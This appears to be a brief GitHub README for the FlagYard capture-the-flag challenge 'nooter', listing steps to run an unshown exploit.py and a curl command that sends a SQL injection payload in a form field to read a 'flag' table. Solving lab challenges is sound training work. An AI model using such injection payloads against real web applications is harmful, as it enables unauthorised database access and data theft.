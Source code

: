# FlagYard
Flagyard is an online platform that offers hands-on cybersecurity training, including various types of capture-the-flag

#nooter
https://flagyard.com/labs/training-labs/2/challenges/00c862b7-13cb-4142-8116-3dde550f4daa

Step 1: Run python exploit.py

Step 2: Enter URL and Your session cookie
![2](https://github.com/user-attachments/assets/77f7c400-81c2-47f0-bce1-7187a538ce8e)



#curl -X POST http://URL.com / -H "Content-Type: application/x-www-form-urlencoded" -H "Cookie: session=YOUR_SESSION_COOKIE" --data "note=AppSec' || (select * from flag)) --"

